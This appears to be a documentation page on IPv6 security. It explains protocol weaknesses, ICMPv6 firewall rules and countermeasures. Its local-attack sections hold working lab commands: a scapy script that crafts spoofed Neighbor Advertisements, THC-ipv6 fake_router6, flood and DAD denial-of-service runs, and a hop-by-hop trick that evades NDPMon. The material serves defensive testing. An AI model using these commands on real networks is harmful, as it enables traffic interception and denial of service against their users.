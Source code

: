 =============
IPv6 security
=============

--------------------
Something about IPv6
--------------------

- IPv6 development started in the early 1990 with few focus on security;
- Some IPv4 well known security breaches like arp poisoning, address spoofing, 
  etc. have their correspondent on IPv6;
- Some new IPv6 features create new vulnerabilities as well as transition process;
- There are already many IPv6 hacking tools available for anyone on the Internet;
- IPv6 deployment is still slow and vulnerabilities are not yet widely shared, 
  but this scenario is about to change.


It should be very easy to turn on IPv6 support and enable it to work, that
was the core idea of IPv6. You don't need dhcp anymore, everyone gets an IPv6
address for free and basically everything gets configured automatically.
That's for clients, but what should we do to make the router work?

Well it turns out if leave everyting on automatic, you will be actually very
insecure. Not only that will some old attacks affect you, but there are also new
ones that affect IPv6 users. To make IPv6 secure you must first configure it correctly
and then test the configurations.


-----------------------------------------------    
New IPv6 features and related security problems
-----------------------------------------------

**1.Larger Adress Space:**

    end to end architecture allowing full tracking and some applications 
    that were impossible with IPv4 and NAT, which changes the way network
    scanning and reconnaisance works. New BOGON threats.
    
    "Bogon filtering is the practice of filtering bogons, which are bogus
    IP addresses. Bogon is also an informal name for an IP packet on the public
    Internet that claims to be from an area of the IP address space reserved,
    but not yet allocated or delegated by the Internet Assigned Numbers Authority
    (IANA) or a delegated Regional Internet Registry (RIR). The areas of
    unallocated address space are called the bogon space."

**2.Enhanced Header:**

    simpler and more efficient header with 40 fixed bytes and adds the
    possibility of extension headers which leads to vulnerabilities related
    to them, opening new venues for attacks.

**3. Improved ICMP (ICMPv6) and Multicast management:**

    increased efficiency, allows auto-configuration, neighborhood discovery
    and multicast group management. No authentication can lead to different
    older attacks and new ones. Multicast capabilities can be exploited to
    gather network informations (reconnaissance).

**4. Auto configuration:**

    makes end user configuration easier. A very useful feature for a "tipical"
    computer user, who wants automatization. That also makes end users exposed
    to certain malicious attacks, specially at public locations.

**5. Fragmentation only at source:**

    data transmission are more efficient and have less overhead on intermediary
    routers. That makes ICMPv6 control more difficult, which leads to new
    attacks based on forged ICMPv6 messages.

**6. Mobility support:**

    mobility support integrated in the protocol allows nomadic and roaming
    applications. That means we get new connection interceptions with new
    man-in-the-middle and DOS (denial of service) attacks.

**7. IPv4 to IPv6 transition**

    since IPv4 is said to be used for at least 20 more years, transitioning
    from IPv4 to IPv6 means that most systems will have to run both and also
    use several tunneling techniques, meaning network adiminstrators have to
    put more effort in configuring the network which means more chance of
    having security holes, leading to possible new exploits and attacks.

--------------------------------------------
Get rid of the nat, it's time for firewalls!
--------------------------------------------

With ipv6 we get rid of NAT and all your devices have a public ipv6 address.
But if nat presented security feature in ipv4 networks, now you have to configure
your firewall, and configure it correctly. You have to make sure what you will
let in your network. 

First things first, let's make something clear. We will only let some kind of traffic
inside out network. That's gona be TCP, UDP and some ICMPv6 types. It's very
important which ICMPv6 packets you let in, because as we will see later ICMPv6
has gained much signifficant role in ipv6.

________________
Firewalling IPv6
________________

There's nothing special about firewalling ip layer, except now you will have to
filter all traffic to all hosts on your network.

Besides that, make sure to filter RH0 header, and i will copy-paste article 
why, taken form `here <http://www.deployingipv6.net/index.php/archives/2007/06/03/rh0/>`_::

    There’s been rather a lot of talk about RH0, that’s IPv6’s type 0 routing header. 
    Broadly speaking, the header allowed you to list a set of places that the 
    packet should go to before its final destination. In the book we commented 
    that source routing used to be a security hot button in IPv4, when 
    authentication based on source IPv4 address was common and packet filtering 
    was not. 

    The problems that we were thinking of were discussed at least going back to 
    the in the mid 90s, and related to source routing allowing any host on the 
    Internet to impersonate any other host and get the returned packets. Usually 
    someone who is doing IP spoofing is making a blind attack, because the replies 
    to the packets that they sent would not be routed back to them. With source 
    routing, some IP stacks would reverse the route for the returned packets, 
    allowing the attacker to get their hands on the replies. With network services 
    like rlogin being common, this was a big threat.

    Some other firewall evasion attacks were also possible with source routed 
    packets, but I think the IP spoofing attacks were most prominent in people’s 
    minds.

    It seems that IPv6 source routing has become a security hot button, but for 
    a slightly different reason. As far as I know, no IPv6 stacks ever reversed 
    the route, so the IP spoofing attacks have never been possible. The firewall 
    evasion attacks are still there, which I don’t think surprised anyone. However, 
    the attacks that caused RH0 to make the press are amplification attacks. 
    The attacks were demonstrated by Philippe Biondi and Arnaud Ebalard and a 
    nice summary was written by Geoff Huston.

    Interest in amplification attacks has grown since attacks like the smurf 
    attack appeared sometime around 1997 and particularly since denial of service 
    attacks became big news. I’m not sure that when the original problems with 
    IPv4 source routing were being discussed that amplification attacks were 
    really considered seriously. I think the full impact of amplification attacks 
    in the modern Internet, particularly with the proliferation of botnets, is 
    yet to fully understood.

    The outcome for IPv6 is that RH0 is now treated as a unknown header by many 
    IPv6 implementations, and will probably be formally retired by the IETF shortly. 
    Other types of routing header (particularly RH2, which is used by Mobile IPv6) 
    should continue to be operate normally, as they do not pose the same risks. 
    I think the remaining interesting question is how do we design a version of 
    RH0 which is both safe and useful.

______
ICMPv6
______

With ipv6 icmp has gained much signifficant role, because it's not only
used for error control and flow control like in ipv4, but it has also replaced
functionality that arp used to handle. 
Fragmentation, Neighbor Discovery, and StateLess Address AutoConfiguration 
(SLAAC) represent essential functionality which is now performed using ICMP messages. 
At the same time ICMP messages are designed to be sent to multicast addresses 
instead of unicast addresses.

There are roughly several actions that could be taken to protect agains attackers
abusing ICMPv6:

* Configure firewall correctly to protect agains malicious ICMPv6 messages,
  this is important for all kinds of environments, because this layer
  of security newer hurts, but will in most cases save your ass.
* Use :term:`IPSec`, this is especially feasible for production environemnts.
* Use :term:`SEnD` mechanism instead of pure :term:`NDP` without using IPSec. 
  SEnD uses RSA key pairs instead of IPSec to secure various ICMP messages.
  Implementing this mechanism could be difficult, because not all devices support
  it, but is again feasible for production environemnts.
* Use "intelligent" deprecation tool like `NDPMon <http://ndpmon.sourceforge.net>`_.
* Enable ipv6 privacy extensions on hosts using your network.

Most of the :term:`THC-ipv6` tools are ment especially for pentesting ICMPv6 security.

__________________
Firewalling ICMPv6
__________________

:term:`ICMPv6 types` that should be accepted originating and going to the internet 
are following:

+----------------------------------------------+--------------------------------------------------------------------+
| Type                                         | Code                                                               |
+---------+------------------------------------+-------+------------------------------------------------------------+
| Value   | Meaning                            | Value | Meaning                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Error Messages                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    1    | Destination Unreachable            |   0   | no route to destination                                    |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   1   | communication with destination administratively prohibited |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   2   | beyond scope of source address                             |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   3   | address unreachable                                        |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   4   | port unreachable                                           |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   5   | source address failed ingress/egress policy                |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   6   | reject route to destination                                |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   7   | Error in Source Routing Header                             |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    2    | Packet too big                     |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    3    | Time Exceeded                      |   0   | hop limit exceeded in transit                              |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   1   | fragment reassembly time exceeded                          |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    4    | Parameter Problem                  |   0   | erroneous header field encountered                         |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   1   | unrecognized Next Header type encountered                  |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   2   | unrecognized IPv6 option encountered                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Informational Messages                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    128  | Echo request                       |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    129  | Echo reply                         |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+

Everything else must get dropped!

On the local network the following additional ICMPv6 messages must be accepted:

+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Informational Messages                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    133  | Router Solicitation (NDP)          |   0   | From hosts to router                                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    134  | Router Advertisement (NDP)         |   0   | From router to hosts                                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    135  | Neighbor Solicitation (NDP)        |   0   | Betwene hosts                                              |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    136  | Neighbor Advertisement (NDP)       |   0   | Betwene hosts                                              |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    137  | Redirect Message (NDP)             |   0   | From router to hosts, only if there are multiple routers   |
+---------+------------------------------------+-------+------------------------------------------------------------+

------------------------------
IPv6, ICMPv6 and local attacks
------------------------------

In this section we will present several possible attacks inside ipv6 networks and
needed actions to prevent against. Also some tests will be written latter
to garantee that speciffic network is secure against those attacks.

__________________________________________________________________________
Icmp :term:`Neighbor Solicitation`/:term:`Neighbor Advertisement` spoofing
__________________________________________________________________________

**Description**

.. image:: _static/NAspoofing.png

The ICMP router discovery messages are called :term:`Router Advertisement`
and :term:`Router Solicitation`. Each router periodically multicasts a 
Router Advertisement from each of its multicast interfaces, 
announcing the IP address(es) of that interface. Hosts discover the 
addresses of their neighboring routers simply by listening for 
advertisements. When a host attached to a multicast link starts up, 
it may multicast a Router Solicitation to ask for immediate advertisements, 
rather than waiting for the next periodic ones to arrive; 
if (and only if) no advertisements are forthcoming, the host may retransmit 
the solicitation a small number of times, but then must desist from 
sending any more solicitations. Any routers that subsequently start up, 
or that were not discovered because of packet loss or temporary link 
partitioning, are eventually discovered by reception of their periodic 
(unsolicited) advertisements.

Attacker is able to redirect all local traffic to your own system by answering 
falsely to :term:`Neighbor Solicitation` requests.

**Attack**

There's quite easy to perfrorm this attack. Well you can use :term:`THC-ipv6` 
parasite6 tool, but we will look up how you can craft up required packets by hand.

What you need to do is create :term:`Neighbor Advertisement` packet with spoofed
mac address. To know whom to spoof you just need to wait for :term:`Neighbor Solicitation`
multicast messages from other hosts on the network.

Here is an example of crafting fake :term:`Neighbor Advertisement` using :term:`scapy`::

    >>> ls(Ether)
    dst        : DestMACField         = (None)
    src        : SourceMACField       = (None)
    type       : XShortEnumField      = (0)
    >>> ether=(Ether(dst='08:00:27:ad:c8:30', src='ba:2d:7e:de:15:c6'))
    >>> ls(IPv6)
    version    : BitField             = (6)
    tc         : BitField             = (0)
    fl         : BitField             = (0)
    plen       : ShortField           = (None)
    nh         : ByteEnumField        = (59)
    hlim       : ByteField            = (64)
    src        : SourceIP6Field       = (None)
    dst        : IP6Field             = ('::1')
    >>> ipv6=IPv6(src='fe80::a00:27ff:fedb:225c', dst='fe80::a00:27ff:fead:c830')
    >>> ls(ICMPv6ND_NA)
    type       : ByteEnumField        = (136)
    code       : ByteField            = (0)
    cksum      : XShortField          = (None)
    R          : BitField             = (1)
    S          : BitField             = (0)
    O          : BitField             = (1)
    res        : XBitField            = (0)
    tgt        : IP6Field             = ('::')
    >>> na=ICMPv6ND_NA(tgt='fe80::a00:27ff:fedb:225c', R=0)
    >>> ls(ICMPv6NDOptDstLLAddr)
    type       : ByteField            = (2)
    len        : ByteField            = (1)
    lladdr     : MACField             = ('00:00:00:00:00:00')
    >>> lla=ICMPv6NDOptDstLLAddr(lladdr='ba:2d:7e:de:15:c6')
    >>> packet = ether/ipv6/na/lla

Now we send this packet and at the same time at the victim machine we monitor
neighbours on link::

    >>> sendp(packet, iface='priv', loop=1, inter=5)

Before the attack router's mac is not redirected to attacker::

    vagrant@priv:~$ ip -6 neigh show
    fe80::a00:27ff:fedb:225c dev eth1 lladdr 08:00:27:db:22:5c router STALE

After a few seconds of sending spoofed :term:`Neighbor Advertisement` packets,
mac address for router gets changed::

    vagrant@priv:~$ ip -6 neigh show
    fe80::a00:27ff:fedb:225c dev eth1 lladdr ba:2d:7e:de:15:c6 STALE

**Countermeasures**

It's not easy to prevent against this kind of attacks, but there still exists
some security measures like:

* Enter static mac addresses of routers

    This is especially usefull on managed environemnts. Setting static mac
    addresses will ensure that they won't get overwritten by attacker sending 
    bogous :term:`Neighbor Advertisement` messages. 

    To set static router MAC addresses on linux you can use following command::

        vagrant@priv:~$ sudo ip -6 neigh replace fe80::MAC lladdr MAC nud permanent dev device

    Neighbour entry is now permanent and :term:`NDP` can't change it, however
    communication betwene host on the network can still get redirected over
    attacker.

* Use :term:`SeND` or :term:`CGA`

    :term:`SeND` is using :term:`CGA` (Cryptographically Generated Address)
    which makes shure that :term:`Neighbor Advertisement` messages are authentic.

    There exists opensource solution called 
    `NDProtector <http://amnesiak.org/NDprotector/>`_, which implements :term:`CGA`
    in userspace.

    .. note:: 

        :term:`CGA` is not wildly deployed and no production read software exists for
        some operating systems, so it is advised not to use it, yet.

* Tunneling solutions like :term:`IPSec` should be used, but they 
are not wildly deployed.

_____________________________________
:term:`Router advertisement` spoofing
_____________________________________

  **Description**

  When host connects to ipv6 network it usually sends :term:`Router Solicitation`
  to find about active routers in the network on multicast address. Router sends
  periodicly or demand :term:`Router Advertisement` messsages, to inform hosts
  about:

    * IPv6 address prefix (so they can configure their address)
    * DNS server
    * MTU size
    * Should hosts go look for a DHCPv6 server or not
    * NTP server address

  Attacker can spoof :term:`Router Advertisement` messages and perform some pretty
  nasty attacks.

  **Attacks**

  * :term:`Router Advertisement` fake router

    .. image:: _static/RAspoofing.png

    This attack spoofs :term:`Router Advertisement` messsages and tries to become
    router with highest priority.

    :term:`THC-ipv6` tool fake_router6 performs this attack. You can try it with
    these simple commands::

        (ethertest)offlinehacker@ubuntu-dev:~/projects/ethertest# fake_router6 priv 2001:db8:0:1::/64
        Starting to advertise router 2001:db8:0:1:: (Press Control-C to end) ...

    We can quickly see spoofed messages in wireshark and after few moments default
    route on victim gets poisoned with new entry::

        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 86sec
        default via fe80::b82d:7eff:fede:15c6 dev eth1  proto kernel  metric 1024

    If we ping some external address like 2001:db8::fffe, we can quickly see
    that packets gets routed via attacker.

  * :term:`Router Advertisement` flood

    .. image:: _static/RAflood.png

    Hosts like Windows XP, 2003, Vista, 7, and 2003 don’t set a limit on the 
    amount of routers they like to listen to.  Whereas in Linux and Mac they 
    set their limit at right around 15.  If there are more than 15 different 
    RAs coming at them, they stop configuring the address and routes.

    If you send millions of RAs different IPv6 source addresses with different 
    IPv6 prefixes, you can, in a matter of seconds turn a fully functioning 
    Windows machine into a brick.

    :term:`THC-ipv6` tool flood_router6 does exactly that. There's a nice video
    demonstrating this attack avalible at 
    `http://www.youtube.com/watch?v=1EAnjZqXK9E <http://www.youtube.com/watch?v=1EAnjZqXK9E&feature=player_embedded>`_.

  **Countermeasures**

  :rfc:`6104` describes what we can do to prevent :term:`Router Advertisement` 
  spoofing:

  * Implement RA snooping

    Idea is that RAs observed from incorrect sources are blocked or dropped, 
    and not propagated through a subnet. One candidate solution in this space, 
    called "RA-Guard" proposed in :rfc:`6105`.

    .. note:

        This type of solution may not be applicable everywhere, e.g., in environments 
        where there are not centrally controlled or manageable switches.

    `Well it turns out that writing efficient RA guard is not that simple. <http://tachyondynamics.com/blog/?p=27>`_
    There are different evaison techniques, and one of interseting is by
    using fragmentation and putting :term:`Router Advertisement` right behind 
    destintion option header and inside fragmentation header. Once the destination 
    recives this packet (as by design) it puts the packet back together and sees 
    it as an IPv6 RA. 
    However, Destination Options are not meant to be read by intermediate 
    devices like firewalls and/or routers, and that is why the ease of evasion.

    .. image:: _static/2nd-technique-672px.gif

  * SEcure Neighbor Discovery (:term:`SeND`)

  * Using Host-Based Packet Filters

    In a managed environment, hosts could be configured via their
    "personal firewall" to only accept RAs from trusted sources.  Hosts
    could also potentially be configured to discard 6to4-based RAs in a
    managed enterprise environment.

  * Adding Default Gateway/Prefix Options to DHCPv6

    Adding Default Gateway and Prefix options for DHCPv6 would allow
    network administrators to configure hosts to only use DHCPv6 for
    default gateway and prefix configuration in managed networks, where
    RAs would be required today.  A new document has proposed such a
    default router option, along with prefix advertisement options for
    DHCPv6. Even with such options added to DHCPv6,
    an RA is in principle still required to inform hosts to use DHCPv6.

    An advantage of DHCPv6 is that should an error be introduced, only
    hosts that have refreshed their DHCP information since that time are
    affected, while a multicast rogue RA will most likely affect all
    hosts immediately.  DHCPv6 also allows different answers to be given
    to different hosts.

    While making host configuration possible via DHCPv6 alone is a viable
    option that would allow IPv6 configuration to be done in a way
    similar to IPv4 today, the problem has only been shifted: rather than
    rogue RAs being the problem, rogue DHCPv6 servers would be an
    equivalent issue. As with IPv4, a network would then still require
    use of Authenticated DHCP, or DHCP(v6) snooping.

    There is certainly some demand in the community for DHCPv6-only host
    configuration. While this may mitigate the rogue RA issue, it simply
    moves the trust problem elsewhere, albeit to a place administrators
    are familiar with today.

  * Different Tunneling solutions

    Usage of :term:`IPSec`, 802.1X and similar should give you another
    layer of protection, but will cost you performance.

  * Using an "Intelligent" Deprecation Tool

    It is possible to run a daemon on a link (perhaps on the router on
    the link) to watch for incorrect RAs and to send a deprecating RA
    with a router lifetime of zero when such an RA is observed.

    .. note::

        `NDPMon <http://ndpmon.sourceforge.net/>`_ is opensource tool that
        detects anomalies in ICMPv6 and can perform actions, like sending
        mail to administrator or similar.

  **Trying out NDPMon**

    We tried out how `NDPMon <http://ndpmon.sourceforge.net/>`_ performs
    ad "Intelligent" Deprecation tool.
    It should be easy to setup, and it should learn itself which hosts are
    routers and wich hosts are the neighbours.
    
    Version provided by different linux distribution package managers is sometimes old,
    it's advised to build it from source. You can find instructions at
    `http://ndpmon.sourceforge.net/index.php?n=Doc.Installation http://ndpmon.sourceforge.net/index.php?n=Doc.Installation`_.

    After you do that, you just need to configure it. Basicly you need to specify
    mac, link local addresses of your router interface and ipv6 network prefix::

        vagrant@router:~$ cat /etc/ndpmon/config_ndpmon.xml

        [...]
        <probes>
        <probe name="eth2" type="interface">
            <countermeasures_enabled>1<countermeasures_enabled>
        <routers>
            <router>
                <mac>08:00:27:db:22:5c</mac>
                <lla>fe80::a00:27ff:fedb:225c</lla>
                <param_curhoplimit>64</param_curhoplimit>
                <param_flags_reserved>0</param_flags_reserved>
                <param_router_lifetime>10800</param_router_lifetime>
                <param_reachable_timer>0</param_reachable_timer>
                <param_retrans_timer>0</param_retrans_timer>
                <param_mtu>0</param_mtu>
                <params_volatile>1</params_volatile>
                <addresses/>
                <prefixes>
                    <prefix>
                    <address>2001:db8:0:1::</address>
                    <mask>64</mask>
                    <param_flags_reserved>224</param_flags_reserved>
                    <param_valid_time>2592000</param_valid_time>
                    <param_preferred_time>604800</param_preferred_time>
                    </prefix>
                </prefixes>
            </router>
        </routers>
        </probe>
        </probes>
        [...]

    As you can see NDPMon can run it's probes on multiple interfaces, even on
    remote hosts.

    When there is no attacker NDPMon does not report any alert::

        vagrant@router:~$ sudo ndpmon
        ----- Initialization -----
        Reading configuration file: "/etc/ndpmon/config_ndpmon.xml" ...
        [settings] NDPMon general settings: {
            actions high priority {
                syslog
                no sendmail
                no pipe program
            }
            actions low priority {
                syslog
                no sendmail
                no pipe program
            }
            admin mail root@localhost
            ignor autoconf
            syslog facility LOG_LOCAL1
            no use reverse hostlookups
        }
        [parser] Finished reading the configuration.
        Reading neighbors file: "/var/local/lib/ndpmon/neighbor_list.xml" ...
        [parser] Finished reading the neighbor cache.
        ------------------

        [capture_pcap] Listening on interface eth2.
        ----- ND_ROUTER_ADVERT -----
        Reset timer for 8:0:27:db:22:5c fe80::a00:27ff:fedb:225c
        [parser] Writing cache...
        ------------------

    But if we want to advertise fake router, we can quickly notice new alerts::

        root@ubuntu-dev:~/projects/ethertest# fake_router6 priv 2001:db8:0:1::/64

        ----- ND_ROUTER_ADVERT -----
        [alerts] Alert "wrong ipv6 router" raised on probe "eth2".
        ------------------

    It would be fun to see what happens if we turn on countermeasures::

        vagrant@router:~$ cat /etc/ndpmon/config_ndpmon.xml

        [...]
        <countermeasures>
            <kill_illegitimate_router>RESPOND</kill_illegitimate_router>
            <kill_wrong_prefix>LAUNCH AFTER 10</kill_wrong_prefix>
            <propagate_router_params>CEASE AFTER 10</propagate_router_params>
            <propagate_router_dns>RESPOND</propagate_router_dns>
            <propagate_router_routes>RESPOND</propagate_router_routes>
            <propagate_neighbor_mac>RESPOND</propagate_neighbor_mac>
            <indicate_ndpmon_presence>SUPPRESS</indicate_ndpmon_presence>
        </countermeasures>
        [...]

    We start NDPMon with countermeasures enabled, and we can quickly see that
    they are pretty effective::

        ----- ND_ROUTER_ADVERT -----
        [alerts] Alert "wrong ipv6 router" raised on probe "eth2".
        [countermeasures]: Sent zero lifetime advertisement for illegitimate router.
        ------------------

        ---- ICMP packet ----
        [countermeasures]: Packet dropped as it is a NDPMon counter measure.
        ------------------
       
    As we can see packet is dropped on router and zero lifetime advertisement for
    illegitimate router is send. We can quickly notice that default gateway does
    not get poisoned::

        vagrant@router:~$ sudo ndpmon

        [...]
        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 86sec

    I was wondering if i could evade countermeasures if i turn on :term:`hop-by-hop`
    header using::

        root@ubuntu-dev:~/projects/ethertest# fake_router6 -H priv 2001:db8:0:1::/64
        Starting to advertise router 2001:db8:0:1:: (Press Control-C to end) ...

    Well surprisingly it turned out it worked, NDPMon didn't detect fake 
    :term:`Router Advertisement` packets anymore and i was happily able to poison
    ipv6 routes once again::

        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 67sec
        default via fe80::b82d:7eff:fede:15c6 dev eth1  proto kernel  metric 1024

    So it looks like NDPMon was not so affective after all and we can summarize
    that currently no effective opensource tool, besides tunneling mechanisms 
    exists that would protect against :term:`Router Advertisement` spoofing.

    .. note::

        NDPMon is not useless afterall, it is still able to identify and report
        about new hosts on a network and could be easyly used to monitor managed
        environemnts. At the same time smart attaker won't make any noise and
        only attack speciffic hosts on a switched networks and usually won't be
        detected.

_________________________________________
Denial of Service (DoS) with IP conflicts
_________________________________________

  **Description**
 
  Duplicate address detection (DAD) allows hosts to detect if some ipv6 address is
  already assigned when performing :term:`SLAAC`. The process can be described
  as following:

  1. Node tries to assign some address X to it's interface
  2. First it joins multicast group FF02::1 for add nodes and FF02::1:FF00:0:X
  3. It checks if there's any :term:`Neighbor Solicitation` query with same ip
  4. Then it sends :term:`Neighbor Solicitation` query with destination of
     FF02::1:FF00:0:X to ask if there's anybody with this ip on the network
  5. It checks for any :term:`Neighbor Advertisement` to address FF02::1

  In case of events 3 or 5, address is already taken, else node can use it.

  Well what happens if attacker allways responds to DAD with a positive, DDOS.

  **Attack**

  We will once again use `THC-ipc6` tool dos-new-ipv6::

    root@ubuntu-dev:~/projects/ethertest# dos-new-ip6 priv
    Started ICMP6 DAD Denial-of-Service (Press Control-C to end) ...
    Spoofed packet for existing ip6 as fe80::a00:27ff:fead:c830
    Spoofed packet for existing ip6 as fe80::a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:f489:f23b:bb34:2a44
    Spoofed packet for existing ip6 as 2001:db8:0:1:f489:f23b:bb34:2a44
    Spoofed packet for existing ip6 as 2001:db8:0:1:a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:e470:b690:2817:cf15
    Spoofed packet for existing ip6 as 2001:db8:0:1:e470:b690:2817:cf15
    Spoofed packet for existing ip6 as 2001:db8:0:1:e82a:43ce:d93:c667
    Spoofed packet for existing ip6 as 2001:db8:0:1:e82a:43ce:d93:c667
 
  As we can see host tried many times, but was unable to get ip. If we examine
  host ip configuration, ip is not assigned to interface::

    vagrant@priv:~$ ifconfig

    [...]
    eth1      Link encap:Ethernet  HWaddr 08:00:27:ad:c8:30  
            inet addr:10.1.0.18  Bcast:10.1.255.255  Mask:255.255.0.0
            inet6 addr: fe80::a00:27ff:fead:c830/64 Scope:Link
            UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
            RX packets:15677 errors:0 dropped:0 overruns:0 frame:0
            TX packets:1829 errors:0 dropped:0 overruns:0 carrier:0
            collisions:0 txqueuelen:1000 
            RX bytes:1615960 (1.6 MB)  TX bytes:188906 (188.9 KB)
    [...]

  **Countermeasures**

  This attack shares a lot in common with term :term:`Router Advertisement`
  spoofing, so similar methods for prevention could be used.

  .. note::

    We decided to try out what NDPMon says about this attack, if tool is able to
    detect it. It turned out it was useless.

* Denial of Service (DoS) with Neighbor floods

There are also some other local attacks that are possible, but like presented
there are no effective mechanism, besides different tunneling to prevent attacks 
inside ipv6 networks.

---------------------
Secure implementation
---------------------

We have tried to prevent these attacks and find out that only tunneling mechanisms
like :term:`IPSec` or link based authentication mechanisms like :term:`802.11q`
can protect agains local attacks. 

.. note::

    For demonstration there's avalible a secure implementation of network
    using :term:`IPSec` avalible :doc:`here <linux_standard_corporate>`
